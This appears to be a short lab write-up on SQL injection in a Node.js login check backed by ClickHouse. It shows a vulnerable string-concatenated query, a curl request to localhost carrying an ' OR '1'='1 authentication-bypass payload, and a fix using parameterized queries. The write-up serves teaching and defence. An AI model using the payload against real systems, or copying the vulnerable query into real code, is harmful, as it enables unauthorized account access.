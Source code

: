 # sqli101 - part 1

## Vulnerability
Unescaped user inputs used in the following SQL query.
```js
db.testQuery("SELECT count() as c\nFROM user\nWHERE username = '" + username + "' AND password = '" + password + "'")
```

## Exploitation
```bash
curl --request POST \
  --url http://localhost:80/check_credentials \
  --header 'Content-Type: application/json' \
  --data '{
    "username": "admin",
    "password": "'\'' OR '\''1'\''='\''1"
}'
```

## Fix
User inputs should be validated (can use a regex to restrict to a subset of ascii characters).
User inputs can also be escaped.

It is also possible to use query parameterized queries. (cf [ClickHouse documentation](https://clickhouse.com/docs/en/interfaces/cli#cli-queries-with-parameters)).
Implementing that solution changes two files, `routes/index.js` and `database.js`

```js
db.testQuery("SELECT count() as c\nFROM user\nWHERE username = '{username:String}' AND password = '{password:String}'", {'username': username, 'password': password})

async testQuery(query, parameters) {
    return this.clickhouse.query(query, {'params': parameters}).toPromise();
}
```
